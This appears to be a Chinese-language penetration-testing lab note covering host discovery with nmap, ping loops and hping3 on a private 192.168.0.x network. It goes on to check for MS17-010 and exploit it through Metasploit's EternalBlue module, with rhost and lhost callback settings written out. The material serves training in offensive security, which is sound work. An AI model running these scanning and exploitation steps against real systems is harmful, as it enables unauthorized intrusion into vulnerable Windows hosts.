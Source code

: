 Day1-2
===
Host Discovery: IP (arp, icmp, 25, 80, 445, 3389)
---
    sudo nmap –n –sn –PS22,80,445,3389 192.168.0.* –oG - |grep Up | cut –d" " –f2 > iplist
    利用常見的連接埠探測機器是否有開啟這些連接埠
<img  alt="image" src="https://github.com/user-attachments/assets/20801a33-6b66-4cc0-b612-f9983fd3ae7b">

**補充**

1.nmap預設只掃1000常用的連接埠
            
2.nmap沒有權限只會進行TCP connect scan只能掃80、443，若要完整的掃描開放端口需加sudo，因要進行SYN掃描要創建數據包，root權限才能創建

    若環境無法安裝nmap可以利用迴圈
    for i in {1..254}; do (ping -c 1 192.168.0.$i | grep "bytes from" &); done
<img  alt="image" src="https://github.com/user-attachments/assets/b5b183ea-2680-48be-bdd7-b5c513864579">

    UDP Scan 可清楚看到137有回應，138可能有開但被過濾,139完全沒有回應

<img alt="image" src="https://github.com/user-attachments/assets/73263ac5-23e4-4f12-82d8-10c4e4fd1e16">

    sudo hping3 192.168.0.7 -n -S -c 3 -p 80，利用hping發送封包

<img  alt="image" src="https://github.com/user-attachments/assets/596f3f6f-44cc-4d4c-871d-62e507fe2501">

Service/OS Discovery
---
        
    sudo nmap -n -p445,3389 -sVC 192.168.0.21，發現此台主機有開啟smb v1
<img alt="image" src="https://github.com/user-attachments/assets/c6494a73-cc45-4c6b-aa4c-b005a88a254e">

    sudo nmap -n --script=smb-vuln-ms17-010.nse 192.168.0.21 使用nmap上的腳本進行scan
<img alt="image" src="https://github.com/user-attachments/assets/2950f88e-461c-4a1c-ad3d-08a04613a8cc">

Initial Access - Exploit MS17_010
---

    msfconsole -q 執行metasploit
    search ms17_010

<img alt="image" src="https://github.com/user-attachments/assets/6ad42976-a471-4f71-b7b2-4964d0f2f2f7">

    use 2
<img  alt="image" src="https://github.com/user-attachments/assets/46192082-9fcc-437f-bdfe-37eeb45a7ca2">

    show options

<img  alt="image" src="https://github.com/user-attachments/assets/9b8530f0-dfb7-4b49-9a34-1ee8a7d78329">

    set rhost 192.168.0.21
    set lhost 192.168.0.18
    run
<img  alt="image" src="https://github.com/user-attachments/assets/cc831b10-7387-4047-a2bd-33993b9dd238">
